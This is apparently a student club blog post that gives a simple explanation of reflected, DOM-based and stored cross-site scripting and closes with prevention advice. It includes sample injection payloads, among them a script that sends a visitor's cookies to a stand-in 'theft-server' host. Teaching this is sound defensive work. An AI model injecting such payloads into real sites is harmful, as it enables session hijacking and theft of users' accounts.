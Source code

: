 ```yaml
---
title: Cross Site Scripting, simplified
date: 2023-2-22
---
```

https://acmcsuf.com/blog/778 What is up my ACM folks, today we’re gonna break down and simplify [Cross Site Scripting (XSS)](https://en.wikipedia.org/wiki/Cross-site_scripting) on a higher abstract level. XSS is a pretty common web vulnerability so it’d be beneficial to know a bit about it when developing web applications.

Have you ever wondered what could happen when you click on a sketchy link? Well XSS is one of the many ways links could be used to compromise your system. Let’s go over how.

## What is XSS?

Simply put, XSS occurs when a payload is injected into your browser.

This is a pretty big deal since an attacker can execute JavaScript in your browser, which can fully compromise you. An attack could execute any action in that application and view/modify any data in your window. With this, an attacker could steal your user accounts, hijack credentials, and take sensitive data.

## What types of XSS exist?

When watching out for XSS it comes in 3 main forms, **Reflected**, **DOM-based** and **Stored**.

### Reflected XSS

Reflected XSS occurs when JavaScript is executed with origins from an HTTP request. This is reflected either be a website’s results or response immediately. 

When looking out for reflected XSS it’s important to know that reflected attacks occur in emails or URLs.

Let’s go over a simple made up example that occurs if you were to search for a certain user on twitter.

```
https://twitter.com/search?user=angus
```

In the URL response the application would echo would be

```
<p> You searched for: angus </p>
```

Under the assumption this link isn’t processed in any way, an attacker could modify the URL like so.

```
https://twitter.com/search?user=<script>Malicious stuff </script>
```

Now If a user were to visit this link the malicious JavaScript would be executed in their browser.

### DOM XSS

Now let's go over DOM-based XSS, which occurs when an app has some client side code that is modified to run in an unintended way.

For example a web page can have an input field that is populated through a URL query similar to reflected XSS. This populated input field then causes an issue that makes the DOM behave unexpectedly.

Let’s say we have an input field to choose a pizza type for our pizza order.

```
<select>
<script>

document.write("<OPTION value=1>"+decodeURIComponent(document.location.href.substring(document.location.href.indexOf("default=")+8))+"</OPTION>");

document.write("<OPTION value=2>Pepperoni</OPTION>");

</script>
</select>
```

Let’s say by default the link looks something like this.

```
http://www.papajohns.com/order.html?default=Cheese
```

An attacker could give you a link

```
http://www.papajohns.com/order.html?default=<script>alert(document.cookie)</script>
```

Now the DOM would create an object for that string which could be exploited to steal your cookies.

### Stored XSS

Lastly let's go over Stored XSS, which functions a bit differently then Reflected or DOM XSS. Here the malicious script comes from a server or database. This happens because the application server first received malicious data from input on the application. The input can come in anywhere that input is allowed, like choosing a username, contact info or pretty much any input field on an application or website. Later users receive that data in an HTTP response.

For example some an attacker could input something like this as a username to take a users session identifier cookies.

```
<script>var+img=new+image();img.src="http://theft-server/" + document.cookie;</script>
```

Let’s assume the input wasn’t processed after this, then the website would post this username through an HTTP request and any user who visits that user profile would receive the attacker's intended response.

The reason Stored XSS is a bit more dangerous is because it is self contained in the application, unlike Reflected/DOM XSS where you would have to introduce another user to the exploit through something like a URL.

## Preventing XSS

Some good practices to prevent XSS are to filter your input fields when taking input, encoding output data so it’s not misinterpreted as content, and using proper response headers. You could also use a [Content Security Policy (CSP)](https://en.wikipedia.org/wiki/Content_Security_Policy) HTTP header in your webpages. CSP can make it so only your content only comes from the site origin, allowing/disallowing certain domains and restricting/allowing certain content media types like images, audio, etc.

These are the basic concepts behind XSS, but XSS can get pretty complicated so it’s good to look into some of the more advanced techniques in which it could manifest itself.
